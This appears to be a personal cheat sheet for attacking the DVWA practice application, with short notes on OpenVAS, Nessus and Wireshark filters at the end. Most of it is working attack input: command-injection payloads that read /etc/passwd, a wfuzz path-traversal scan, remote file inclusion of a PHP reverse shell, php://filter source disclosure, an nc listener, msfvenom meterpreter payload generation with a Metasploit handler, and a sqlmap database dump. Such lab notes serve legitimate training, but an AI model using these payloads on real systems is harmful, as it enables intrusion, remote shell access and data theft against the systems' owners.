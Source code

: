 ## Brute force
Get token from html hidden box 
## Command Injection
Medium 127.0.0.1| cat /etc/passwd
Hight 8.8.8.8|pwd
; && || | &
## Cross Site Request Forgery (CSRF)
token=1

## File Inclusion
Scan files
`wfuzz -c --hl 81 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -b "security=low; PHPSESSID=a0bf6sa3dqu1hhrbrcd13f6rko" "http://192.168.1.209/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php"`

### injectable webfiles
/usr/share/laudanum/php/php-reverse-shell.php 

http://192.168.1.209/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:9000/shell.php
### download php website
http://192.168.1.209/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../hackable/flags/fi.php

file:///etc/passwd 

## File Upload

#### PyLocalServer
sudo python -m http.server 1337
sudo python2 -m SimpleHTTPServer 1337

#### Listen remote Shell 
nc -nlvp 1337 

weevely
msfvenom -p php/meterpreter_reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > exploit.php
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set lhost 127.0.0.1

### Sql injection 
sqlmap -r request.txt -p id --dump

### 
tldr 


# OpenVas
sudo gvm-setup
sudo gvm-start 

# Nessus 
sudo systemctl tart nessusd.service



# Wireshark Settings
## Filters
### Suspect TCP traffic 
    - Filter tcp syn = True and filter with non ack 
        (This help to identify the most suspect tcp traffic) ( Adding graph. Top menu -> statics -> IO/Graph  )  
        - (tcp.flags.syn == 1) &&  (!(tcp.flags.ack == 0))

    - Other way to filter suspect TCP traffic
        - (tcp.flags.urg == 0) &&  (tcp.flags.push == 0) && (tcp.flags.fin == 0)

	- Filter open ports if doing nmap scan 
	 	- 'tcp.flags.syn == 1 and tcp.flags.ack == 1 and ip.dst == 10.0.2.15'
	 	    match request and response succesfully  
	 	    
	 	    
### Suspect SSH traffic 
    Filter by port 22 - port of ssh -- tcp.port == 22

### Filter Executable files 
    - Filter by filetype  
        - http.request.uri matches "/*.txt"
    - Filter some executable files 
        - http contains 'DOS'
